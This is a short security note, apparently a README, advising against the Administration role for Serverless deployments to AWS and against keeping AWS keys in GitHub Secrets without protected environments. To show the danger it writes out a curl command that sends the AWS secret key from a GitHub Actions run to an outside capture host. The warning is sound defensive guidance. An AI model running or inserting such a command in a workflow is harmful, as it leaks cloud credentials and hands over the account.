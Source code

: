 # Serverless Deployment Policy
Sadly, this is not clearly mentioned in the Servless documentation. 
But **never use the "Administration Role" on Production!** 
Because if you get access to these access keys, 
you can easily create a new user with web console access and have full access to your AWS account.

I would even say never use this "Administration Aole" for an AWS account if you only 
store the keys in GitHub Secrets without using the GitHub Environment with protected branches configuration.  

Because if you only store the keys in Github Secrets, 
any user who is allowed to commit to any branch can use Github Actions to send the keys to their own backend:

```
curl -d '{ "name": "${{ secrets.AWS_SECRET_KEY }}" }' \
  -H "Content-Type: application/json" \
  https://enci4g46iahum.x.pipedream.net/
```

So use the Environments on GitHub Repository level to allow the keys only on certain branches.
